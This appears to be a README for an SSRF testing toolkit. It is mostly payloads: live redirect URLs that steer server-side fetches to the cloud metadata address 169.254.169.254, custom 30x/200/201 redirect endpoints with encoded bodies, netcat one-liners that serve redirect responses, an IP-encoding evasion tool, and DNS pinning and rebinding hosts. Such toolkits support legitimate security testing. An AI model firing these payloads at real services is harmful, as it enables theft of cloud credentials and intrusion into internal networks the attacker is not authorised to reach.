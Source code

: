 # SSRF Testing

***

### htaccess - redirect test for various cases
Status codes: 300, 301, 302, 303, 305, 307, 308

Filetypes: jpg, json, csv, xml
#### Live demo:
jpg 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/img-without-body/301-http-169.254.169.254:80-.i.jpg`

`https://ssrf.localdomain.pw/img-with-body/301-https-169.254.169.254:80-.i.jpg`


json 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/json-without-body/301-http-169.254.169.254:80-.j.json`

`https://ssrf.localdomain.pw/json-with-body/301-http-169.254.169.254:80-.j.json`


csv 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/csv-without-body/301-https-169.254.169.254:80-.c.csv`

`https://ssrf.localdomain.pw/csv-with-body/301-https-169.254.169.254:80-.c.csv`


xml 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/xml-without-body/301-http-169.254.169.254:80-.x.xml`

`https://ssrf.localdomain.pw/xml-with-body/301-http-169.254.169.254:80-.x.xml`

***

### custom-30x - Custom 30x responses and Location header with php

#### Live demo:

`https://ssrf.localdomain.pw/custom-30x/?code=332&url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### custom-200 - Custom 200 response and Content-Location header with php

#### Live demo:

`https://ssrf.localdomain.pw/custom-200/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### custom-201 - Custom 201 response and Location header with php

#### Live demo:

`https://ssrf.localdomain.pw/custom-201/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### Minimal web server using netcat

`while true ; do nc -l -p 80 -c 'echo -e "HTTP/1.1 302 Found\nContent-Type: application/json\nLocation: http://169.254.169.254/\n{\"a\":\"b\"}"'; done`

`while true ; do nc -l -p 554 -c 'echo -e "RTSP/1.0 301 Moved\nCSeq: 1\nLocation: http://169.254.169.254/"'; done`

***

### ip.py - Alternate IP encoding tool useful for SSRF Testing

python ip.py IP EXPORT(optional)

python ip.py 169.254.169.254

python ip.py 169.254.169.254 export

***

### DNS pinning

nslookup ssrf-169.254.169.254.localdomain.pw

***

### DNS pinning race condition

nslookup ssrf-race-169.254.169.254.localdomain.pw

***

### DNS Rebinding

pip install twised

python dns.py

http://webcache.googleusercontent.com/search?q=cache:http://www.611eternity.com/DNSRebinding%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0/

***

### cloud-metadata.txt - Cloud Metadata Dictionary useful for SSRF Testing

***

### AppSecEU15-Server_side_browsing_considered_harmful.pdf
https://www.youtube.com/watch?v=8t5-A4ASTIU

***

### SSRF bible
https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM

***
